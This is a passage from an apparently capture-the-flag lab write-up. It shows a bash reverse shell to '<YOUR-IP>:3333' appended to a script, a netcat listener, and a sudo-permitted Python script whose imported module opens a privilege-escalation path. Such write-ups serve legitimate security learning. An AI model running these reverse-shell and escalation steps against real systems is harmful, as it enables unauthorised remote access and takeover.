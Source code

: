```bash
echo 'bash -i >& /dev/tcp/<YOUR-IP>/3333 0>&1' >> cow.sh
```
Then, set a net cat listener with:

```bash
nc -lnvp 3333
```
…and there is a shell as mat.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*O38uWJrBLymJkatMQ0rD-g.png)

Read flag5.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*5Qq2X4qz3OgUVFZL-oLCAQ.png)

There is a note.txt file:

```bash
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```
That note gives a clue about the fact that mat can run a specific file as will.
So, check it with sudo -l.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*0ysYtg4dBoQ0Zm_X_3l8gQ.png)

Inside “scripts”, there are 2 python codes.

cmd.py:
```bash
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```
will_script.py:
```bash
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```
